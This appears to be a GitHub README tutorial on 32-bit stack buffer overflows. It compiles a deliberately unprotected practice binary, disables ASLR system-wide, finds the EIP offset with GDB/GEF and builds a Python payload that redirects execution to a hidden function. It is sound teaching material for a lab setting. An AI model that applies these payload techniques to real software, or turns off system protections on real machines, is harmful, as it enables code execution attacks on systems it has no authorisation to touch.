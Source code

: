 # BufferOverflow

### A buffer overflow occurs when a program writes more data to a buffer (a memory area) than it can handle. This can overwrite important data and, in some cases, allow an attacker to execute malicious code.

## How it happens:

-Buffer: A reserved area in memory for storing data.

-Overflow: If the program does not check the size of the data, it can overwrite adjacent memory areas.

## Consequences:

-Data corruption and program crashes.

-Execution of malicious code if an attacker exploits the vulnerability.

## Prevention:

-Validate data sizes.

-Use safe functions.

-Implement protections like ASLR and DEP.


# Introduction to Buffer Overflow: Invoking Functions via Buffer Overflows

To begin, we'll explore how a buffer overflow can be exploited to invoke a specific function within a program. This process involves manipulating memory to redirect the program's execution flow to a desired function.

To practice this buffer overflow case, we will use a C program called `secret.c` and compile it with the following command:

```bash
gcc -g -fno-stack-protector -z execstack -m32 secret.c -o secret
```

Address Space Layout Randomization (ASLR) is a security technique that randomizes memory addresses to protect against certain attacks. 

To check if ASLR is active for our binary `secret`:

```bash
ldd secret
```

![bof1](https://github.com/user-attachments/assets/b9b05657-b76e-42f0-be63-0a7759525270)

ASLR is set to 2 by default. To disable ASLR for easier buffer overflow exploitation, run:
```bash
sudo sh -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
```
This change will persist until the next reboot.


The binary `secret` prompts for user input with the message "Input your data:". When the input exceeds the expected number of characters, it triggers a segmentation fault due to a buffer overflow. This occurs because the program does not properly handle or validate the input size, causing it to overwrite adjacent memory areas.

![bof2](https://github.com/user-attachments/assets/e125c018-af9f-452f-9b70-f674d8443765)


To perform the buffer overflow, we will use GDB with GEF (GDB Enhanced Features).
You can find the GEF repository at: https://github.com/hugsy/gef

To run the binary with GDB, use the command:
```bash
gdb ./secret
```

To determine the offset (how many A's you need to input to reach and overwrite the EIP), we will use the command pattern create:

```bash
pattern create
```

![bof3](https://github.com/user-attachments/assets/082c49a1-9cee-42c8-937e-0754cef063f0)

Generate a pattern of characters that we can use to determine the offset when running the program. Instead of using just a series of A's, we’ll run the program with this character pattern.

We would run it with:

```bash
r <<< 'character_pattern'
```
The `<<<` operator is used to provide a string directly as input to a command or program.

Now we can determine how many characters are needed to reach the EIP using the following command:

```bash
pattern offset $eip
```

![bof4](https://github.com/user-attachments/assets/efc4ef08-fe89-4867-ae3e-94fde127d566)

In this case, the offset is 76, so we can run the following command to verify that the characters are correct and that we will overwrite the EIP with the value BBBB:

```bash
r <<< $(python3 -c 'print("A"*76 + "B"*4)')
```

The **EIP** (Extended Instruction Pointer) is a CPU register that tracks the address of the next instruction to execute, and in a buffer overflow attack, overwriting it allows you to control the execution flow by redirecting it to your chosen code or exploit.

![bof5](https://github.com/user-attachments/assets/678690d1-cab5-4ae4-bf91-ee8b46e88df7)

Additionally, the `checksec` command in GDB checks security features like `NX (No Execute)` protection, which prevents code from running in certain memory regions. It helps you see which security mechanisms are active for a binary.

![bof6](https://github.com/user-attachments/assets/1979e547-2ef8-48ce-89b9-6f41f73d450b)

In our case, we want to execute the function named `secret` that is within the binary. To achieve this, we’ll use the command `p secret` to get the address of the `secret` function. We can then overwrite the EIP with this address to redirect execution to the `secret` function.

```bash
p FUNCTION_NAME
```

![bof7](https://github.com/user-attachments/assets/d9084be8-73a6-403f-8efa-37d090c98736)

Now, we need to format the address in **little-endian** (e.g., `0x080484b6` as `\xb6\x84\x04\x08`) because systems store multi-byte values in this order, ensuring the function is executed correctly.

In our case it will be: 0x5655619d -> \x9d\x61\x55\x56

We will now create the payload using `sys.stdout.buffer.write()` instead of `print()` because it writes the data as raw bytes, ensuring that each byte is preserved exactly as needed. This is crucial for accurately overwriting the EIP with the correct memory address, especially when handling non-printable characters in the exploit.

Next, we'll execute the binary with our crafted payload using the command:

```bash
./secret $(python3 -c 'import sys; sys.stdout.buffer.write(b"A"*76 + b"\x9d\x61\x55\x56")')
```

This command runs the `secret` binary while injecting the payload directly, aiming to overwrite the EIP with the address of the `secret` function.

![bof8](https://github.com/user-attachments/assets/8cb7ccb8-7d12-4270-b767-9bd6c8cb6e26)

As a result, the function was executed, printing the message "You have exploited the buffer overflow!" before the program crashed with a segmentation fault.

You can also save the payload in a Python script and execute it when running the `secret` binary, simplifying the injection process.

```python3
import sys

secret_func_address = b'\x9d\x61\x55\x56'
payload = b'A' * 76 + secret_func_address

sys.stdout.buffer.write(payload)
```

![bof9](https://github.com/user-attachments/assets/52f80186-b3d2-4e3d-a361-28f8dbb49a01)


